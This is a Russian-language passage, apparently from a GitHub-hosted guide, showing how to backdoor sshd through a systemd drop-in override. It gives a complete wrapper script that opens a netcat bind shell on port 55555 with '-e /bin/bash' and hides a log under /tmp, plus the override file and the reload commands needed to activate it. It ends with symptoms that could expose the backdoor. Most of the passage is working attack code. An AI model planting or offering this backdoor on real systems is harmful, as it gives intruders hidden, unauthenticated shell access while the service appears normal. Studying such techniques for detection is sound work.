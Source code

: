 *   **⚙️ Механизм:** Используется **drop-in** файл для переопределения директивы `ExecStart` в юните сервиса. Вместо пути к настоящему бинарному файлу (`/usr/sbin/sshd`) указывается путь к вредоносному скрипту. Чтобы сбросить предыдущее значение, перед новой директивой `ExecStart` пишется пустая `ExecStart=`.

*   **👨‍💻 Пример:**
    1.  **Создание вредоносного скрипта-обертки** `/usr/local/bin/fake-sshd.sh`:
        ```bash
        #!/bin/bash
        # /usr/local/bin/fake-sshd.sh

        # 1. Вредоносное действие: логируем факт запуска или открываем бэкдор
        echo "$(date): SSH service started, potentially logging data..." >> /tmp/.secret_log
        /usr/bin/nc -l -p 55555 -e /bin/bash &

        # 2. Запуск настоящего демона, чтобы все выглядело нормально
        # 'exec' передает управление, и systemd отслеживает основной процесс sshd
        exec /usr/sbin/sshd -D "$@"
        ```
        Не забудьте сделать его исполняемым: `sudo chmod +x /usr/local/bin/fake-sshd.sh`.

    2.  **Создание drop-in файла** `/etc/systemd/system/sshd.service.d/override.conf`:
        ```ini
        # /etc/systemd/system/sshd.service.d/override.conf
        [Service]
        # Сбрасываем старую команду ExecStart
        ExecStart=
        # Указываем путь к нашему скрипту
        ExecStart=/usr/local/bin/fake-sshd.sh
        ```

    3.  **Применение ловушки:**
        ```bash
        sudo systemctl daemon-reload
        sudo systemctl restart sshd
        ```
    4.  **Симптом:** На первый взгляд, все в порядке. `systemctl status sshd` показывает `active (running)`, SSH-подключения работают. Однако, внимательный анализ `netstat -tuln` или `ps aux` может выявить посторонний процесс (`nc`) или открытый порт (55555).

